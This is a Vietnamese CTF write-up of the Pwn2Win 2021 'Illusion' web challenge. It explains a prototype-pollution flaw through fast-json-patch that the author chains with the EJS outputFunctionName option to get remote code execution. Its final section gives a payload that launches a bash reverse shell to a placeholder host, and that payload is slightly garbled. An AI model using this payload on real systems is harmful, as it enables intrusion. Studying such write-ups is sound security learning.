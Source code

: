 ```yaml
---
layout: post
title: "[WRITEUP PWN2WINCTF 2021]: WEB"
categories: CTF
toc: true
---
```


Lorem ipsum dolor sit amet, consectetur adipiscing elit. Fusce bibendum neque eget nunc mattis eu sollicitudin enim tincidunt. Vestibulum lacus tortor, ultricies id dignissim ac, bibendum in velit.

## Challenge Illusion (h2)

- Source: [illusion](https://github.com/DauHoangTai/CTF/tree/master/2021/Pwn2win/illusion)

### Overview (h3)

- Trang web chỉ hiện thị các service nào đang online và offline nhưng ở đây tất cả đều online. Cấu trúc của folder chứa challenge mà author cung cấp thì chúng ta thấy có file `flag.txt` và `readflag` nhưng nó không được gọi ra ở bất kì đâu => có lẽ phải RCE để thực thi file `readflag`.

### Analysis Source (h3)

- Nhìn vào source thì thấy có 1 endpoint `change_status` là có thể khai thác. 
![image](https://user-images.githubusercontent.com/54855855/121309532-7c888d80-c92c-11eb-8687-73a2225375f0.png)
Ở đoạn code này chương trình nhận input của người dùng thông qua method post sau đó kiểm tra tham số người dùng truyền vào nếu như `service=='status'` thì return về 400, nếu không thì sẽ push vào array path (option ở đây là repace nên sẽ thay thế value của tham số đó luôn chứ không phải thêm vào). Cuối cùng nó sẽ thay đổi các giá trị trong mảng của services (được khai báo ban đầu) bằng các giá trị ở trong mảng pacth và return về sercives đó.
- Ở endpoint `/` thì thấy được nó lấy mảng servirces để render qua file `index.js` mà không hề được lọc đầu vào cùa người dùng.
- File `index.ejs` thì sẽ in ra các value của services.
=> chúng ta có thể dựa vào cách nó in ra thẳng input của người dùng mà không xử lí đầu vào => prototype pollution attack.

### Solution (h3)

- Ở bài này chúng ta không thể gọi prototype như bình thường vì nó bị chặn. Sau khi tìm kiếm thì phát hiện ở thư viện ` fast-json-patch` gần đây có thể tấn công prototype pollution
link: https://github.com/418sec/huntr/pull/768
- Sử dụng nó kèm theo hàm `outputFunctionName` ở trong node js có thể rce
Vậy bây giờ ta chỉ cần sử dụng nó và RCE để lấy flag.

### Payload (h3)

```js
constructor/prototype/outputFunctionName='x; return return global.process.mainModule.constructor._load("child_process").execSync(bash -c "bash -i >& /dev/tcp/host/port 0>&1");'
```
